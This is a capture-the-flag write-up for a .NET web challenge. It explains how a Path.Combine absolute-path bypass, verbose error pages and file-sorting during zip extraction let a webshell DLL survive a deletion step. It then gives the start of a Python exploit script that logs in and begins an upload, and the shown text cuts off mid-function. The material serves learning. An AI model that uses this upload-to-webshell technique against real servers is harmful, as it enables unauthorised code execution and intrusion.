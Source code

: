 ## Dotnet101

**Author:** Taidh

I can't solve this challenge so i ask the author about the idea and the script exploit to learn more about `Dotnet`.

Review code:
Structure of this challenge looks like this:
![image](https://hackmd.io/_uploads/rkNGDTb46.png)


Idea:
- The second parameter in **Path.Combine()** can be controlled, so we can pass an absolute path => Bypass check ..
- To obtain the running path, access **/Test/zeroTestPage?debug=1** because the file **file_does_not_exist** does not exist, and in the **Web.config**, **<customErrors mode="Off"/>** is set, so the error is displayed and contains the path to the webroot (C:\inetpub\wwwroot).
- Note that all folders and files have only "ReadAndExecute" permissions except for Uploads (FullControl) and Test (Modify) because I set permissions for the entire **wwwroot** directory and then only edit permissions for the **Uploads** and **Test** folders, so the **zeroTestPage.aspx** file will keep "ReadAndExecute" permission.
- Create an arbitrary DLL file (webshell) with the class named **ReadNoFlag**, and the file name must start with the letter 'z', with the second character in the file name being the character following 'e' (any character from f to z, case-insensitive). Explanation: Because "zeroTestPage.aspx" is set to have only "ReadAndExecute" permission => no delete permission, when the file is created as described, it will be sorted below the "zeroTestPage.aspx" file when extracted. When the program attempts to delete the "zeroTestPage.aspx" file, it stops, and in the end, we have just uploaded without being deleted.
- Zip the file and upload it to the "C:\inetpub\wwwroot\Test" folder.

Example:
> zexploit.dll (webshell file)
> zeroTestPage.aspx (zeroTestPage.aspx file in Test folder)
> 
> z = z
> e = e
> x > r => it will be sorted below zeroTestPage.aspx file.

Final exploit script:
```python
import requests
import re

url = 'http://40.88.10.36'

sess = requests.Session()

def Login(username,password):
    response = sess.get(url + '/Login')
    view_state = response.text.split('id="__VIEWSTATE" value="')[1].split('"')[0]
    event_validation = response.text.split('id="__EVENTVALIDATION" value="')[1].split('"')[0]

    login_data = {
        '__VIEWSTATE': view_state,
        '__EVENTVALIDATION': event_validation,
        'txtUsername': username,
        'txtPassword': password,
        'btnLogin': 'Login'
    }
    r = sess.post(url + '/Login', data=login_data)
    print("[-] Login success!")

def uploadDLL(filename):
    response = sess.get(url + '/Admin/UploadImage')
```